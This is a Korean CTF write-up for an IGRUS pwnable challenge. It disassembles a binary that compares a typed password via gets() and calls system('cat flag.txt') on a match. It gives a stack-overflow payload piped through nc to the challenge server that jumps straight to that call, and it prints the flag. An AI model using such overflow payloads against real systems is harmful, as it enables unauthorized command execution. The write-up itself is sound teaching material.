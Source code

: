 # Password
- - - -

*  main
```
 0x4007a6 <main>       push   rbp
   0x4007a7 <main+1>     mov    rbp, rsp
   0x4007aa <main+4>     sub    rsp, 0x50
   0x4007ae <main+8>     mov    rax, qword ptr [rip + 0x2008c3] <0x601078>
   0x4007b5 <main+15>    mov    esi, 0
   0x4007ba <main+20>    mov    rdi, rax
   0x4007bd <main+23>    call   setbuf@plt <0x400640>
 
   0x4007c2 <main+28>    mov    esi, 0x4008f8
   0x4007c7 <main+33>    mov    edi, 0x4008fb
   0x4007cc <main+38>    call   fopen@plt <0x400690>
 
   0x4007d1 <main+43>    mov    qword ptr [rbp - 8], rax

   0x4007d5 <main+47>    mov    rdx, qword ptr [rbp - 8]
   0x4007d9 <main+51>    lea    rax, [rbp - 0x30]
   0x4007dd <main+55>    mov    rcx, rdx
   0x4007e0 <main+58>    mov    edx, 0x10
   0x4007e5 <main+63>    mov    esi, 1
   0x4007ea <main+68>    mov    rdi, rax
   0x4007ed <main+71>    call   fread@plt <0x400620>
 
   0x4007f2 <main+76>    mov    byte ptr [rbp - 0x20], 0
   0x4007f6 <main+80>    mov    edi, 0x400908
   0x4007fb <main+85>    mov    eax, 0
   0x400800 <main+90>    call   printf@plt <0x400660>

   0x400805 <main+95>    lea    rax, [rbp - 0x50]
   0x400809 <main+99>    mov    rdi, rax
   0x40080c <main+102>    mov    eax, 0
   0x400811 <main+107>    call   gets@plt <0x400680>
 
   0x400816 <main+112>    lea    rax, [rbp - 0x30]
   0x40081a <main+116>    mov    rdi, rax
   0x40081d <main+119>    call   strlen@plt <0x400630>
 
   0x400822 <main+124>    mov    rdx, rax
   0x400825 <main+127>    lea    rcx, [rbp - 0x50]
   0x400829 <main+131>    lea    rax, [rbp - 0x30]
   0x40082d <main+135>    mov    rsi, rcx

   0x400830 <main+138>    mov    rdi, rax
   0x400833 <main+141>    call   strncmp@plt <0x400600>
 
   0x400838 <main+146>    test   eax, eax
   0x40083a <main+148>    jne    main+177 <0x400857>
 
   0x40083c <main+150>    mov    edi, 0x400943
   0x400841 <main+155>    call   puts@plt <0x400610>
 
   0x400846 <main+160>    mov    edi, 0x400954
   0x40084b <main+165>    mov    eax, 0
   0x400850 <main+170>    call   system@plt <0x400650>
 
   0x400855 <main+175>    jmp    main+187 <0x400861>
 
   0x400857 <main+177>    mov    edi, 0x400961

   0x40085c <main+182>    call   puts@plt <0x400610>
 
   0x400861 <main+187>    mov    eax, 0
   0x400866 <main+192>    leave  
   0x400867 <main+193>    ret  
```

* fopen
```
pwndbg> x/s 0x4008fb
0x4008fb:	"password.txt"
```

* system
```
pwndbg> x/s 0x400954
0x400954:	"cat flag.txt"
```

password.txt 를 읽어서 그안에있는 pw와 입력한 pw를 비교후 일치하면 cat flag.txt 를 실행하는 코드이다.
get함수를 이용하기에 ret을 이용해서 시스템 함수를 호출하는 부분으로 이동시키면 될것 같다.

* ret으로 이동해서 실행할 코드
```
0x400846 <main+160>    mov    edi, 0x400954
0x40084b <main+165>    mov    eax, 0
0x400850 <main+170>    call   system@plt <0x400650>
```

64bit 프로그램이니 payload 구성은 null(80byte) + rbp(8byte) + ret(8byte) 이다.


## Exploit
- - - -
(python -c "print 'A'*80 + 'B'*8 + '\x46\x08\x40\x00\x00\x00\x00\x00'") | nc igrus.cf 8104


## flag
- - - -
flag{34sy_p4ssw0rd_p4ss1ng}



#IGRUS_CTF #IGRUS_CTF/Pwnable